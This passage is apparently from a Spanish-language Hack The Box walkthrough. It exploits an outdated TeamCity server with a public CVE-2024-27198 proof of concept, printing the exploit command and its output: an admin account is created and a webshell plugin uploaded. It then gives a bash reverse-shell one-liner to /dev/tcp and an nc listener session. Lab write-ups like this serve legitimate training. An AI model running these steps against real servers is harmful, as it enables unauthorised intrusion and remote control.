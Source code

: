 Efectivamente están usando TeamCity, y parece ser una versión vieja vulnerable a un CVE que nos permite crear un usuario administrador y hacer cosas maliciosas... vaya.

Podemos encontrar POCs de este CVE por ahí, yo utilizaré [este](https://github.com/W01fh4cker/CVE-2024-27198-RCE/) para proseguir. Con ejecutarlo y darle los parámetros que necesita ya tendremos RCE:

```bash
❯ python CVE-2024-27198-RCE.py -u uwuowo -p uwuowo123 -t http://teamcity.runner.htb/

 _____                     ____ _ _           ____   ____ _____ 
|_   _|__  __ _ _ __ ___  / ___(_) |_ _   _  |  _ \ / ___| ____|
  | |/ _ \/ _` | '_ ` _ \| |   | | __| | | | | |_) | |   |  _|  
  | |  __/ (_| | | | | | | |___| | |_| |_| | |  _ <| |___| |___ 
  |_|\___|\__,_|_| |_| |_|\____|_|\__|\__, | |_| \_\\____|_____|
                                      |___/                     
                                                                            Author: @W01fh4cker
                                                                            Github: https://github.com/W01fh4cker
    
[+] User added successfully, username: uwuowo, password: uwuowo123, user ID: 16
[+] The target operating system version is linux
[!] The current version is: 2023.05.3 (build 129390). The official has deleted the /app/rest/debug/processes port. You can only upload a malicious plugin to upload webshell and cause RCE.
[!] The program will automatically upload the webshell ofbehinder3.0. You can also specify the file to be uploaded through the parameter -f. Do you wish to continue? (y/n)y 
[+] The malicious plugin gYKBxES3 was successfully uploaded and is trying to be activated
[+] Successfully load plugin gYKBxES3
[+] The malicious plugin gYKBxES3 was successfully activated! Webshell url: http://teamcity.runner.htb/plugins/gYKBxES3/gYKBxES3.jsp
[+] Please start executing commands freely! Type <quit> to end command execution
command > whoami
tcuser
```

Podemos ahora lanzarnos una reverse shell a nuestro equipo.

```bash
command > bash -c 'bash -i >& /dev/tcp/<your-ip>/443 0>&1'
```

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.13 52636
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
   Welcome to TeamCity Server Docker container

 * Installation directory: /opt/teamcity
 * Logs directory:         /opt/teamcity/logs
 * Data directory:         /data/teamcity_server/datadir

   TeamCity will be running under 'tcuser' user (1000/1000)

tcuser@647a82f29ca0:~/bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
   Welcome to TeamCity Server Docker container

 * Installation directory: /opt/teamcity
 * Logs directory:         /opt/teamcity/logs
 * Data directory:         /data/teamcity_server/datadir

   TeamCity will be running under 'tcuser' user (1000/1000)

tcuser@647a82f29ca0:~/bin$ ^Z
[1]  + 8975 suspended  nc -lvnp 443
```